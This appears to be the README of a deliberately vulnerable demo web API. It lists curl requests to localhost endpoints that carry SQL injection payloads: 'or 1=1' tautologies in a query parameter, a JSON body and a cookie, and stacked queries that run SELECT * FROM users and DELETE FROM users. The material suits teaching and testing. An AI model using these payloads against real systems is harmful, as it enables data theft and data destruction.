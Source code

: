 # vulnerable

## GET request - Get list of users - filter in query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
```

## POST request - Get list of users - filter in body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

## Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

## GET request - Get list of users - filter in query param
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```